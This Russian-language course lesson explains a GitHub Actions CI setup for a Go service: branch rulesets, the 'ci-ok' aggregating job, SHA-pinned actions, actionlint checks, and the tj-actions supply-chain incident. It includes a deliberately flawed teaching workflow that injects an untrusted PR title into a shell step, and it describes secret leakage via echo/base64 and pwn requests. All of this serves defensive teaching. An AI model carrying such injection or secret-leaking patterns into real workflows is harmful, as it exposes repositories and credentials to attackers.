Без защиты ветки CI — советчик: красный крестик рядом с PR, который можно не заметить и смержить. Воротами его делает **ruleset**, набор правил для веток репозитория. Ruleset — более новая замена классической «branch protection». Правила для `main`, которые мы включим в уроке 1.19:

- **изменения только через pull request.** Прямой `git push` в `main` запрещён, всё проходит через CI;
- **обязательная проверка `ci-ok`.** Слияние заблокировано, пока она не зелёная. Можно ещё потребовать, чтобы ветка была актуальной относительно `main` (вариант «strict»): тогда CI проверяет ровно то, что окажется в `main`, ценой лишних перезапусков;
- **запрет force-push и удаления** `main`, то есть историю `main` нельзя переписать;
- **обход для владельца** (bypass). Для одиночного проекта это честный компромисс: иногда нужно починить сломанный `main` срочно. Но обход виден в журнале, и это осознанное действие, а не случайность.

Ещё три функции GitHub дополняют CI. Для публичных репозиториев они бесплатны:

- **secret scanning** ищет в истории репозитория токены и ключи известных форматов (AWS, GitHub, Stripe и сотни других) и сообщает о них;
- **push protection** не даёт запушить коммит с таким секретом: отказ приходит прямо в ответ на `git push`. Это дешевле, чем менять ключ после утечки;
- **CodeQL default setup** — статический анализ безопасности для Go и JavaScript/TypeScript (SQL-инъекции, path traversal, небезопасная десериализация) на каждый PR. Он запускается собственным workflow GitHub, без нашего YAML.

Почему всё это часть CI, а не «настройки»? Потому что CI — это не файл, а свойство процесса: «в `main` не попадает непроверенное». Файл `ci.yml` задаёт **что** проверять, а ruleset — **что будет, если проверка не прошла**. Без второго первое бессмысленно. Настраивать ruleset можно только у репозитория, который уже на GitHub, поэтому мы сделаем это руками после первой публикации (урок 1.19).

<Deep title="почему CI должен быть быстрым и детерминированным">

Исследования DORA (DevOps Research and Assessment) несколько лет подряд опрашивали десятки тысяч инженеров и вывели четыре метрики, которые отличают сильные команды от слабых. Это частота выкатки, время от коммита до продакшена (lead time), доля выкаток, вызвавших сбой, и время восстановления. Книга «Accelerate» (Форсгрен, Хамбл, Ким) подробно разбирает эти данные и главный вывод: скорость и стабильность не противоречат друг другу. Команды, которые выкатывают чаще, ломают реже, потому что каждое изменение маленькое, а проверка автоматическая. CI здесь не вспомогательный инструмент, а основа: без надёжных автоматических ворот частая выкатка была бы игрой в рулетку.

Ключевое слово — «надёжных». Ворота работают, пока команда верит красному статусу. Представьте тест, который падает раз в двадцать запусков без всякой причины: он зависит от времени, от порядка горутин или от сети. Такие тесты называют нестабильными (flaky). Первые два-три раза разработчик разбирается. Потом он просто нажимает «перезапустить». Через месяц перезапуск становится рефлексом, и настоящая регрессия, которая краснеет так же, проскакивает тем же нажатием. Google в своём блоге о тестировании писал, что около 1,5 % прогонов тестов у них дают нестабильный результат, а какая-то степень нестабильности есть почти у каждого шестого теста. Это при огромных вложениях в инфраструктуру тестирования.

Отсюда инженерные правила, которые вы видели в нашем `ci.yml`. Результат не должен зависеть от того, что лежит в кэше: отсюда `-count=1`. Он не должен зависеть от того, когда запущен прогон: отсюда закреплённые версии Go-ветки, линтера, сканеров, действий и образа раннера. Иначе новый релиз линтера покрасит в красный PR, в котором ничего не менялось. И проверка должна оставаться быстрой, чтобы её дожидались, а не обходили. Детерминизм и скорость — не удобство, а условие того, что ворота вообще что-то значат.

</Deep>

## <Part kind="viz" /> Визуализация: граф джоб и атака на цепочку поставок

Первая сцена — граф джоб нашего CI на PR, который меняет только урок, то есть файлы в `course/`. Два варианта устройства обязательных проверок. «Агрегирующая джоба `ci-ok`» — наш `ci.yml`: `changes` выдаёт флаги, лишние джобы пропущены по `if:`, `course` проходит, `ci-ok` собирает итог. «Фильтр `on.paths` на весь workflow» — популярная ошибка: обязательными сделаны джобы мессенджера, а их workflow запускается только на `messenger/**`.

<CiGraph />

Что попробовать:

1. В варианте с `ci-ok` дойдите до кадра, где джобы мессенджера пропущены. Каким цветом их видит защита ветки и почему PR всё равно ещё нельзя слить?
2. Переключитесь на `on.paths`. Ни одна проверка не упала. Почему PR не сливается и что должно случиться, чтобы он слился?
3. Представьте, что в варианте с `ci-ok` упала джоба `changes`. Что станет с остальными джобами, и что покажет `ci-ok`?

<SelfCheck question="Ответы">

1. Пропущенные по `if:` джобы отчитываются Success: для защиты ветки они зелёные. Но обязательная проверка одна — `ci-ok`, а она ещё не отчиталась. PR сливается только после её Success.
2. Workflow не запустился, поэтому не создано ни одной джобы и отчитываться некому. Обязательные проверки висят в Pending («Expected — Waiting for status to be reported») бесконечно. Слить такой PR можно только обходом защиты или правкой файла, который попадёт под фильтр, то есть никак честно.
3. Все джобы с `needs: changes` будут пропущены, а пропуск — это Success. Без `ci-ok` защита по отдельным джобам увидела бы всё зелёным. `ci-ok` с `if: always()` запустится, найдёт `failure` у `changes` в `needs.*.result` и упадёт: PR красный.

</SelfCheck>

Вторая сцена — песочница по атаке на `tj-actions/changed-files`. Workflow из трёх действий, одно из них «example/changed-files». Выберите закрепление (тег или SHA), права токена и есть ли в окружении джобы секрет. Нажмите «Подменить тег», затем «Запустить workflow» и посмотрите, чей код выполнился и что утекло.

<SupplyChainSandbox />

Что попробовать:

1. Закрепление по тегу, `write-all`, секрет в env: подмените тег и запустите. Что утекло?
2. Оставьте тег, но поставьте минимальные права и уберите секрет. Атака предотвращена?
3. Переключитесь на SHA и повторите атаку с `write-all`. Почему права больше не важны в этом сценарии, и почему мы всё равно ставим минимальные?

<SelfCheck question="Ответы">

1. Выполнился код злоумышленника, утекли `GITHUB_TOKEN` с правом `contents:write` (атакующий может пушить в репозиторий) и `DEPLOY_KEY`.
2. Нет. Код злоумышленника всё равно выполнился, но утёк только токен с `contents:read`. Минимальные права сужают ущерб, но не предотвращают атаку. Кстати, в реальной атаке скрипт читал память раннера, поэтому секрет, переданный любому шагу джобы, был бы виден, даже если не лежал в окружении именно этого шага.
3. SHA указывает на конкретный коммит, и перевешенный тег его не меняет: выполняется исходный код, ничего не утекает. Минимальные права мы оставляем на случай атаки, от которой SHA не спасает: уязвимость в самом закреплённом коммите, компрометация до закрепления, imposter commit. Защита строится слоями.

</SelfCheck>

<Callout type="simplified">

В песочнице атака сводится к «выполнился чужой код — утекло то, что ему было доступно». В реальном инциденте tj-actions вредоносный код читал всю память процесса Runner.Worker, где лежат все секреты джобы, а не только переменные окружения шага. «Утекли» — значит были напечатаны в публичный журнал в двойном base64, откуда их мог забрать любой. Права токена ограничивают ущерб, только пока джоба идёт: токен истекает вместе с ней. Поэтому важна и скорость обнаружения.

</Callout>

## <Part kind="code" /> Код: `ci.yml`

Workflow целиком лежит в `.github/workflows/ci.yml`. Шапка задаёт события, права по умолчанию, `concurrency` и версии инструментов в `env`, чтобы каждая была записана в одном месте. Разберём файл по регионам.

### Фильтр

<<< @/../.github/workflows/ci.yml#filter{yaml}

- **`outputs` с выражением `github.event_name != 'pull_request' || …`.** На PR — флаг фильтра (`'true'` или `'false'`). На `push` и `workflow_dispatch` выражение даёт `true` до обращения к фильтру, и проверяется всё. Шаг фильтра на этих событиях пропущен по `if:`, и джоба `changes` всё равно успешна;
- **без `actions/checkout`.** На `pull_request` действие берёт список файлов PR из REST API, поэтому `checkout` не нужен (README `dorny/paths-filter`). Отсюда и права: только `pull-requests: read`. На других событиях действие сравнивало бы коммиты через `git`, и тогда checkout понадобился бы, но на них мы его не вызываем;
- **фильтры описаны прямо в YAML**, а не отдельным файлом, иначе для чтения файла понадобился бы checkout.

### Ворота

<<< @/../.github/workflows/ci.yml#gates{yaml}

- **У каждой джобы `needs: changes` и `if:` по своему флагу.** Флаги — строки, поэтому сравниваем с `'true'`, а не проверяем истинность: строка `'false'` в выражениях истинна;
- **`setup-go` перед `golangci-lint-action`.** С v4 линтер-действие требует явной установки Go, а кэш модулей и сборки ведёт `setup-go`;
- **`cache-dependency-path` указывает на `messenger/go.sum`**, потому что `go.mod` лежит не в корне репозитория. По умолчанию `setup-go` искал бы `go.mod` в корне, а в v7 ключ по умолчанию строится от `go.mod`, и `go.sum` нужно указать явно. У джобы `labs` своего `go.sum` нет: модуль лаб без внешних зависимостей, поэтому ключ — `labs/go.mod`;
- **`defaults.run.working-directory`** — каталог для всех шагов `run:`. На шаги `uses:` он не действует, поэтому у `golangci-lint-action` свой вход `working-directory`, а у `upload-artifact` путь указан от корня: `messenger/coverage.out`;
- **`go run "…@${GOVULNCHECK_VERSION}"`** — версия приходит из `env` через переменную оболочки, а не подстановкой <code v-pre>${{ }}</code>. Здесь значение наше, не из события, так что инъекции нет, но правило проще соблюдать везде одинаково;
- **`course` ставит и Node, и Go**: `check:go` компилирует Go-фрагменты уроков. `node-version-file: course/.nvmrc` берёт ту же версию Node 26, что у автора;
- **`labs` не делает `npm ci`.** `check-labs.ts` использует только встроенные модули Node и запускается прямо `node` (Node 26 выполняет TypeScript без сборки);
- **`workflows` — `setup-go` с `cache: false`.** Зависимостей кроме самого `actionlint` нет, и кэшировать нечего.

### Образ

Из джобы `image` выделим шаги после установки Buildx:

<<< @/../.github/workflows/ci.yml#image{yaml}

- **`load: true`, `push: false`.** Образ загружается в Docker раннера, чтобы его увидели `trivy` и `smoke.sh`, и никуда не публикуется. Публикация — дело `release.yml` в уроке 1.19, и только после зелёного `main`;
- **<code v-pre>build-args: VERSION=ci-${{ github.sha }}</code>** — та же переменная `VERSION`, что вшивается в бинарь через `-ldflags` (урок 1.16). Подстановка в `with:` — не `run:`: значение уходит входом действия, а не текстом скрипта, и SHA коммита не управляется автором PR;
- **`cache-from`/`cache-to: type=gha,scope=messenger`** — кэш слоёв BuildKit в кэше GitHub Actions. `mode=max` сохраняет и слои промежуточных стадий multi-stage. Без него кэшировалась бы только финальная стадия, а самая дорогая — сборочная `golang`. `scope` отделяет этот кэш от будущих образов;
- **`trivy-action` с `version: v0.74.0`.** Вход `version` есть у действия на закреплённом SHA, по умолчанию там `v0.70.0`. Мы ставим версию из таблицы проекта — ту же, что `check:images` использует локально в образе `aquasec/trivy:0.74.0`. `exit-code: "1"` превращает находку в падение шага;
- **smoke — тот же скрипт, что локально** запускает `npm run check:images`. Проверка одна, места запуска два.

### Итоговая проверка

<<< @/../.github/workflows/ci.yml#ci-ok{yaml}

- **`toJSON(needs.*.result)`** — массив итогов всех джоб из `needs`, например `["success","skipped",…]`. Он передаётся через `env:`, а скрипт печатает его в журнал (сразу видно, кто виноват) и ищет `"failure"` или `"cancelled"` в кавычках, чтобы не спутать с подстрокой;
- **`timeout-minutes: 2`** — джоба ничего не ставит и выполняется за секунды.

### Проверка самого workflow

Ошибку в `ci.yml` иначе увидишь только на GitHub, после пуша. Поэтому мы проверяем его локально тем же `actionlint`, что и джоба `workflows`. Новый скрипт курса:

```text
$ npm run check:workflows

> check:workflows
> cd .. && go run github.com/rhysd/actionlint/cmd/actionlint@v1.7.12

```

Тишина и код 0 означают, что замечаний нет. `actionlint` сам находит `.github/workflows/` в корне репозитория. Если в системе установлен `shellcheck` (у автора — 0.9.0), `actionlint` прогоняет через него каждый блок `run:`. Если не установлен, эта часть молча пропускается, и подробный режим (`-verbose`) это показывает.

Чтобы увидеть, что `actionlint` ловит на самом деле, возьмём учебный workflow с типичными ошибками. Он лежит вне `.github/workflows`, поэтому GitHub его не запускает:

<<< @/modules/01-go-service/examples/ci/bad-workflow.yml{yaml}

```text
$ go run github.com/rhysd/actionlint/cmd/actionlint@v1.7.12 course/modules/01-go-service/examples/ci/bad-workflow.yml
course/modules/01-go-service/examples/ci/bad-workflow.yml:11:50: "github.event.pull_request.title" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. see https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks for more details [expression]
   |
11 |       - run: echo "Проверяем PR — ${{ github.event.pull_request.title }}"
   |                                       ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
course/modules/01-go-service/examples/ci/bad-workflow.yml:12:9: shellcheck reported issue in this script: SC2086:info:1:6: Double quote to prevent globbing and word splitting [shellcheck]
   |
12 |       - run: echo $GITHUB_SHA
   |         ^~~~
course/modules/01-go-service/examples/ci/bad-workflow.yml:15:9: property "ok" is not defined in object type {} [expression]
   |
15 |     if: needs.greet.outputs.ok == 'true'
   |         ^~~~~~~~~~~~~~~~~~~~~~
exit status 1
```

<N>3</N> замечания, и каждое — реальная ошибка: инъекция заголовка PR, переменная без кавычек и обращение к выходу `ok`, которого джоба `greet` не объявляла. Без `actionlint` условие тихо стало бы ложным, и джоба `after` никогда бы не запустилась. А теперь посмотрите, чего `actionlint` **не** сказал: ни слова про `permissions: write-all` и `actions/checkout@main`. Он проверяет корректность, а не политику безопасности. Закрепление и права проверяют другие инструменты: OpenSSF Scorecard (правила Pinned-Dependencies и Token-Permissions) или специализированные анализаторы workflow. У нас эти правила соблюдены в самом файле и проверяются на ревью.

Ещё одна находка — из первой попытки написать этот пример. Строка <code v-pre>run: echo "Проверяем PR: ${{ … }}"</code> (с двоеточием) не прошла даже разбор YAML: `could not parse as YAML: mapping values are not allowed in this context`. Двоеточие с пробелом внутри неэкранированной строки YAML читает как начало словаря. Отсюда и `|` в многострочных `run:` нашего `ci.yml`.

## <Part kind="practice" /> Что изменилось в репозитории

```text
.github/workflows/
└── ci.yml                                   # new: changes → 8 ворот → ci-ok
messenger/docs/adr/
└── 0009-ci-агрегирующая-проверка-и-закрепление-по-sha.md   # new
course/
├── package.json                             # new script: check:workflows (actionlint)
└── modules/01-go-service/examples/ci/
    └── bad-workflow.yml                     # new: учебный workflow с ошибками для actionlint
```

Решение записано в ADR-0009. Там фильтр путей на уровне джоб и `ci-ok` как единственная обязательная проверка, отвергнутые варианты (`on.paths`, обязательные проверки по каждой джобе, матрица, отдельные workflow), закрепление по SHA и минимальные права, `pull_request` вместо `pull_request_target`, Go `1.26.x`. Состояние репозитория после урока — тег `m01-l18`.

### Первый прогон на GitHub — после публикации репозитория

Пока у репозитория нет копии на GitHub, `ci.yml` — просто файл: проверить его можно только `actionlint`. Первый настоящий прогон случится, когда вы опубликуете репозиторий. Порядок такой:

1. Войдите в GitHub CLI: `gh auth login`. Вход интерактивный, через браузер, его делаете вы сами.
2. Создайте публичный репозиторий из локального: `gh repo create <имя> --public --source=. --remote=origin`.
3. Отправьте `main`: `git push -u origin main`. Это `push` в `main`, поэтому фильтр не применяется, и CI прогонит все ворота. Ловушка: если `gh` настроил git на HTTPS со своим токеном, GitHub отклонит push с файлами в `.github/workflows/` («refusing to allow an OAuth App to create or update workflow … without `workflow` scope»). У токена `gh auth login` по умолчанию scope `repo`, `read:org` и `gist`, а `workflow` нет. Выхода два: `gh auth refresh -s workflow` или remote по SSH (`git@github.com:<owner>/<repo>.git`). Проверить scope можно командой `gh auth status`.
4. Откройте вкладку **Actions** репозитория. Там прогон workflow `ci`: граф джоб, журнал каждого шага, артефакт `coverage` на странице прогона. Убедитесь, что `ci-ok` зелёная.
5. Настройте защиту `main`: Settings → Rules → Rulesets, правило «Require status checks to pass» с проверкой `ci-ok`, «Require a pull request before merging», «Block force pushes», «Restrict deletions». Включите secret scanning, push protection и CodeQL default setup в Settings → Code security. Это шаги урока 1.19: там же мы добавим публикацию образа, и после этого откроем первый PR через новую защиту.

У курса первый прогон `ci` на `main` (коммит `6935c68`, 19 октября 2026 года) прошёл с первого раза за <N>2 мин 25 с</N>: все десять джоб зелёные, правок под настоящие раннеры не понадобилось. Это заслуга локальных проверок (`check:workflows`, `check:images`, `check:labs`), которые повторяют ворота CI. Ждать такого же у себя не стоит: типичные причины первого падения — права на исполнение у скриптов (`git update-index --chmod=+x`), привилегированные сценарии на раннере и забытые настройки репозитория.

## <Part kind="mistakes" /> Типичные ошибки

<Callout type="mistake">

**`uses: …@main` или `@v4`.** Ветка и тег изменяемы: следующий прогон выполнит код, который вы никогда не видели. Именно так вредоносный код `tj-actions/changed-files` выполнили все workflow, запущенные 14–15 марта 2025 года, а действием пользовались больше 23 000 репозиториев. Закрепляйте полным SHA из репозитория действия с комментарием `# vX.Y.Z` и обновляйте через Dependabot.

**`permissions: write-all` «чтобы заработало».** Обычно «не работало» из-за одного права, например `pull-requests: read` у `paths-filter`. `write-all` выдаёт токену запись во всё: код, релизы, пакеты, настройки Actions. Любое скомпрометированное действие в любой джобе получает эти права. Права на уровне workflow — только чтение, недостающее — точечно той джобе, которой нужно.

**Секрет в `echo`.** «Проверю, что секрет дошёл»: `echo $TOKEN`. GitHub замаскирует его в журнале как `***`, но только в точном виде. `echo $TOKEN | base64`, кусок секрета или JSON с ним уйдут в журнал открытым текстом, а журналы публичного репозитория видны всем. Проверяйте наличие (`test -n "$TOKEN"`), а не значение.

**Фильтр путей через `on.paths` в workflow с обязательными проверками.** PR без подходящих файлов висит в Pending навсегда: workflow не запустился, отчитываться некому. Фильтруйте на уровне джоб (`paths-filter` + `if:`), а обязательной делайте одну агрегирующую джобу с `if: always()`.

**Кэш, ключ которого не зависит от `go.sum`.** Если ключ — только версия Go или ОС, кэш создаётся один раз и больше не обновляется: новые зависимости каждый раз скачиваются заново, а старые занимают место. Ключ должен меняться вместе с зависимостями: `cache-dependency-path: messenger/go.sum`. У `setup-go` v7 ключ по умолчанию строится от `go.mod`, а не от `go.sum`.

**Тесты без `-race` в CI.** «Локально гоняем с `-race`, а в CI быстрее без него». Гонки ловит только детектор, и только в тех путях, которые реально выполнились. CI — то место, где тесты гоняются всегда и целиком. Если `-race` и стоит где-то включать, то здесь.

**`pull_request_target` с checkout кода PR.** Workflow выполняется с секретами и токеном базового репозитория, а checkout подкладывает код автора PR: `npm install` запускает его скрипты, `go test` — его тесты. Это pwn request: захват репозитория через открытый PR. Для проверок кода — только `pull_request`. Если нужны права (метки, комментарии), делайте отдельный workflow, который код PR не выполняет.

**`if: success()` или `!cancelled()` у агрегирующей джобы.** С `success()` она пропускается при первом падении зависимости, а пропуск — Success. С `!cancelled()` — не запускается в отменённом прогоне и не может его покрасить. Агрегирующей джобе нужен `always()` и явная проверка итогов.

</Callout>

## <Part kind="tradeoff" /> Компромисс: полнота против скорости

<Callout type="tradeoff">

**Всё на каждый PR** — максимум уверенности: в `main` не попадает ничего, что не прошло все ворота. Цена — время. Каждая минута CI умножается на число PR и на число перезапусков, а долгий CI начинают обходить.

**Только быстрое на PR, тяжёлое потом** — PR проверяется за минуты. Но ошибку, которую ловит только тяжёлая проверка, вы найдёте уже в `main`. Её придётся откатывать, и она блокирует всех, кто вливается после.

**Как распределить.** Правило такое: на PR — всё, что ловит частые ошибки и укладывается в ~10 минут; на `main` — то, что дорого и ловит редкое (полная сборка мультиархитектурного образа, долгие интеграционные сценарии); по расписанию — то, что зависит не от вашего кода, а от мира. Например, повторный `govulncheck` и `trivy` по уже выпущенным образам: новая CVE появляется в базе, когда ваш код не менялся.

**Наш выбор сегодня — всё на PR**, потому что всё быстрое: самые долгие джобы (образ и сценарий лабы) укладываются в минуты, а фильтр путей не запускает их на правках уроков. Локальный прогон тестов мессенджера с `-race` у автора занимает <N>4,6 с</N>. На раннере с холодным кэшем сборки он дольше, но всё равно в пределах минут.

**Когда станет медленно**, первые шаги такие:

- **шардирование тестов** матрицей: N джоб, каждая гоняет свою часть пакетов;
- **перенос тяжёлого на `main` или по расписанию** с уведомлением при падении;
- **кэш поточнее**: `setup-go` и BuildKit уже кэшируют, следующий шаг — не пересобирать то, что не менялось (флаги фильтра внутри одного проекта).

Чего делать не стоит — ослаблять ворота ради скорости: убирать `-race`, ставить `continue-on-error`, делать проверку «необязательной на время». Временное в CI имеет свойство становиться постоянным.

</Callout>

## <Part kind="selfcheck" /> Самопроверка

<SelfCheck question="PR меняет только README в корне репозитория. Какие джобы ci.yml запустятся, что покажет ci-ok и можно ли слить PR?">

Workflow запустится: у него нет фильтра на уровне `on`. Джоба `changes` пройдёт и выдаст все флаги `'false'`: README в корне не подходит ни под один фильтр, а `workflows` смотрит только в `.github/**`. Все ворота будут пропущены по `if:` и отчитаются Success. `ci-ok` запустится по `always()`, увидит в итогах только `success` и `skipped` и пройдёт. PR можно слить. Это правильно: README не влияет ни на одну проверку. Будь фильтр в `on.paths`, такой PR висел бы в Pending.

</SelfCheck>

<SelfCheck question="Коллега предлагает убрать ci-ok и сделать обязательными в ruleset все девять джоб по именам: «так нагляднее». Что сломается?">

Две вещи. Первая: если упадёт `changes`, все джобы с `needs: changes` будут пропущены, а пропуск — Success. Все девять «обязательных» проверок кроме `changes` окажутся зелёными, хотя ничего не проверено. Красной останется только `changes`, и то лишь потому, что её мы тоже перечислили. Если забыть перечислить, она не помешает слиянию. Вторая: имена джоб зашиты в настройках репозитория. Переименование или новая джоба требует правки ruleset вне ревью, а забытая правка либо блокирует все PR (ждём проверку со старым именем), либо делает новую джобу необязательной.

</SelfCheck>

<SelfCheck question="Почему в ci-ok условие if: always(), а не if: success() и не if: !cancelled()?">

С `success()` (это умолчание, когда `if` не указан) `ci-ok` запускается, только если все зависимости успешны. При первом падении она будет пропущена, а пропуск для защиты ветки — Success, и красный PR станет зелёным. С `!cancelled()` она не запустится в отменённом прогоне, и красным его сделать будет некому. `always()` запускает её при любых итогах, и решение «красный или зелёный» принимает её собственный шаг по `needs.*.result`: `failure` или `cancelled` — красный.

</SelfCheck>

<SelfCheck question="В ci.yml все actions закреплены по SHA. Значит ли это, что атака вроде tj-actions нам не страшна? Какие риски остаются?">

От перевешивания тега — да, защищены: SHA указывает на конкретный коммит. Остаются другие риски. Код, который мы закрепили, мог быть уязвим или вредоносен уже в момент закрепления, а SHA лишь гарантирует, что выполнится именно он. Действие может подтягивать вложенные действия по тегу: транзитивная зависимость, как `setup-trivy` у старых коммитов `trivy-action`. SHA может оказаться imposter commit из форка. Скачанные действием бинарники (`trivy`, `golangci-lint`) защищены только закреплённой версией и проверками самого действия. Наконец, Dependabot предложит новый SHA, и его надо читать, а не сливать вслепую. Поэтому мы ещё и держим минимальные права и `persist-credentials: false`: если чужой код всё-таки выполнится, взять ему почти нечего.

</SelfCheck>

<SelfCheck question="Зачем в джобе messenger-vuln check-latest: true, если go-version уже 1.26.x? И почему мы не взяли go-version-file: messenger/go.mod?">

`go-version-file` поставил бы версию из строки `go 1.26.0`, то есть минимальную версию языка, а не актуальный патч, и `govulncheck` нашёл бы уязвимости стандартной библиотеки, закрытые в 1.26.6–1.26.9 (локально на 1.26.5 — 14 штук). `1.26.x` — диапазон, но `setup-go` без `check-latest` сначала берёт подходящую версию из кэша инструментов образа раннера, а он может отставать на патч-другой. Для сканера уязвимостей важен именно последний патч, поэтому здесь `check-latest: true`. Цена — несколько секунд на проверку манифеста и, возможно, скачивание.

</SelfCheck>

<SelfCheck question="Внешний контрибьютор открыл PR из форка и переписал в нём ci.yml: добавил шаг, который отправляет env на свой сервер. Что он получит? Изменится ли ответ, если workflow будет на pull_request_target?">

На `pull_request` выполнится workflow из его ветки, в том числе новый шаг (если настройки репозитория не требуют сначала одобрить запуск для новых контрибьюторов, а у публичных репозиториев такое одобрение включено по умолчанию). Но для PR из форка секреты не передаются, а `GITHUB_TOKEN` — только на чтение. Он отправит себе токен, который читает публичный код и истекает с концом джобы. На `pull_request_target` выполняется workflow из `main`, поэтому его правка `ci.yml` не сработает вовсе. Зато если наш workflow делает checkout кода PR и запускает его (тесты, `npm install`), чужой код выполнится с секретами и токеном базового репозитория. Это pwn request.

</SelfCheck>

<SelfCheck question="Почему в джобе messenger-generate две проверки — git diff --exit-code и проверка пустого git status --porcelain? Почему этого нельзя сделать так же строго локально в check:messenger?">

`git diff` показывает изменения в отслеживаемых файлах. Если генератор создал **новый** файл (например, после добавления нового тега в контракт), `git diff` его не увидит, а `git status --porcelain` — увидит. Локально рабочее дерево почти никогда не чистое: там ваши незакоммиченные правки, и сравнение с git дало бы ложные тревоги. Поэтому `check:messenger` сравнивает файлы до и после генерации. Это мягче: ручная правка `gen/`, совпавшая с результатом генератора, пройдёт. На чистом checkout в CI любое отличие от коммита — ошибка.

</SelfCheck>

## <Part kind="sources" /> Источники

<Callout type="source">

- GitHub Docs, Actions: [Workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax) — `on`, `permissions` (у джобы заменяет набор workflow), `needs`, `if`, `outputs`, `concurrency`, `timeout-minutes` (умолчание 360), `defaults.run`; [Contexts](https://docs.github.com/en/actions/reference/workflows-and-actions/contexts) и [Expressions](https://docs.github.com/en/actions/reference/workflows-and-actions/expressions) — `needs.*.result`, `always()`, `toJSON`; [GitHub-hosted runners](https://docs.github.com/en/actions/reference/runners/github-hosted-runners) — новая VM на каждую джобу, 4 CPU / 16 ГБ / 14 ГБ SSD для публичных репозиториев, `sudo` без пароля; [Events that trigger workflows](https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows) — `pull_request` (merge-коммит, форки без секретов) и `pull_request_target`.
- GitHub Docs: [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use) — инъекция в скрипт и промежуточные переменные окружения, закрепление по полному SHA и предупреждение о SHA из форка, минимальные права `GITHUB_TOKEN`, риски `pull_request_target` и `workflow_run`, lockfile зависимостей; [Automatic token authentication](https://docs.github.com/en/actions/concepts/security/github_token) — срок жизни и права `GITHUB_TOKEN`; [Workflow dependency lockfiles](https://docs.github.com/en/actions/concepts/security/workflow-dependency-lockfiles) — `actions.lock`, public preview.
- GitHub Docs: [Troubleshooting required status checks](https://docs.github.com/en/pull-requests/collaborating-with-pull-requests/collaborating-on-repositories-with-code-quality-features/troubleshooting-required-status-checks) — таблица «джоба пропущена по условию — Success; workflow пропущен фильтром путей, веток или сообщением коммита — Pending»; [About rulesets](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets) — правила, обход; [Secret scanning](https://docs.github.com/en/code-security/secret-scanning) и push protection; [CodeQL default setup](https://docs.github.com/en/code-security/code-scanning/enabling-code-scanning/configuring-default-setup-for-code-scanning).
- GitHub Security Lab, [«Keeping your GitHub Actions and workflows secure: Preventing pwn requests»](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/) — почему `pull_request_target` с checkout кода PR опасен.
- [GHSA-mrrh-fwg8-r2c3](https://github.com/advisories/GHSA-mrrh-fwg8-r2c3) (CVE-2025-30066) — tj-actions/changed-files: перевешенные теги, `memdump.py`, двойной base64 в журнале, 14–15 марта 2025, больше 23 000 репозиториев, исправление в v46.0.1; [CISA: Supply Chain Compromise of Third-Party GitHub Action](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-github-action-cve-2025-30066) — связь с `reviewdog/action-setup` (CVE-2025-30154); Unit 42, [«GitHub Actions Supply Chain Attack»](https://unit42.paloaltonetworks.com/github-actions-supply-chain-attack/) — цепочка SpotBugs → reviewdog → tj-actions и цель `coinbase/agentkit`.
- [GHSA-69fq-xp46-6x23](https://github.com/aquasecurity/trivy/security/advisories/GHSA-69fq-xp46-6x23) (CVE-2026-33634) — компрометация `trivy-action`, `setup-trivy` и trivy v0.69.4 в марте 2026, кого не задело (неизменяемые релизы, SHA после 2025-04-09), imposter commit.
- OpenSSF Scorecard, [Checks](https://github.com/ossf/scorecard/blob/main/docs/checks.md) — Pinned-Dependencies (полная semver-версия модуля Go считается закреплённой) и Token-Permissions (чтение на уровне workflow, запись у джоб).
- README действий на закреплённых SHA: [`dorny/paths-filter`](https://github.com/dorny/paths-filter) — список файлов PR через API без checkout, `pull-requests: read`; [`actions/setup-go`](https://github.com/actions/setup-go) — порядок выбора версии, `check-latest`, ключ кэша; [`golangci/golangci-lint-action`](https://github.com/golangci/golangci-lint-action) — `setup-go` обязателен с v4, `version`, `working-directory`; [`aquasecurity/trivy-action`](https://github.com/aquasecurity/trivy-action) — `version`, `ignore-unfixed`, `exit-code`; [`actions/checkout`](https://github.com/actions/checkout) — `persist-credentials`, `allow-unsafe-pr-checkout`.
- Инструменты: [govulncheck](https://go.dev/doc/tutorial/govulncheck) и [`golang.org/x/vuln/cmd/govulncheck`](https://pkg.go.dev/golang.org/x/vuln/cmd/govulncheck) — анализ достижимости, код выхода 3; [trivy](https://trivy.dev/latest/docs/) — сканирование образов; [actionlint](https://github.com/rhysd/actionlint/blob/main/docs/checks.md) — список проверок, интеграция с shellcheck и pyflakes, недоверенные входы; `go help testflag` — `-count=1` отключает кэш тестов.
- Martin Fowler, [«Continuous Integration»](https://martinfowler.com/articles/continuousIntegration.html) — практика, самопроверяющаяся сборка, десятиминутная сборка.
- Nicole Forsgren, Jez Humble, Gene Kim, «Accelerate: The Science of Lean Software and DevOps» (2018) — четыре ключевые метрики и связь скорости со стабильностью; [DORA](https://dora.dev/) — актуальные отчёты.
- Google Testing Blog, [«Flaky Tests at Google and How We Mitigate Them»](https://testing.googleblog.com/2016/05/flaky-tests-at-google-and-how-we.html) — доля нестабильных прогонов и тестов.

</Callout>

Дальше — урок 1.19: доставка. Образ уезжает в GHCR с тегами и подписью происхождения, курс публикуется на GitHub Pages, а Dependabot начинает обновлять закреплённые SHA. Там же мы настроим ruleset, и `ci-ok` станет настоящими воротами.
